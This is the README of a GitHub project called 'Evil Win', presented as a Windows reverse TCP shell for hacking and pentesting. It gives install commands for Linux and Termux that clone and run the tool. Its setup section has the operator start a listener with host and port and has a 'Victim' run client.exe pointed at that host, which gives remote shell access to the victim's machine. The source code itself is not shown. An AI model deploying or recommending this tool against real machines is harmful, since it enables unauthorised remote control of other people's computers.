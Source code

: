 # Evil Win
### Windows Reverse TCP Shell for Hacking and Pentesting


<p align="center">
  <img src="https://raw.githubusercontent.com/i-am-unbekannt/Evil-Win/main/img1.png">
</p>

### Main Window
<p align="center">
  <img src="https://raw.githubusercontent.com/i-am-unbekannt/Evil-Win/main/img2.png">
</p>


### Installation:
* Linux:
  * `sudo apt update -y`
  * `sudo apt install python3 python3-pip git -y`
  * `git clone https://github.com/i-am-unbekannt/Evil-Win`
  * `cd Evil-Win/`
  * `pip3 install -r requirements.txt`
  * `python3 Evil-Win.py`

* Termux:
  * `pkg update -y`
  * `pkg install python3 python3-pip git -y`
  * `git clone https://github.com/i-am-unbekannt/Evil-Win`
  * `cd Evil-Win/`
  * `pip3 install -r requirements.txt`
  * `python3 Evil-Win.py`

### Set Up A Connection
* Host: `python3 Evil-win.py [HOST] [PORT]`
* Victim: `client.exe [HOST] [PORT]` 

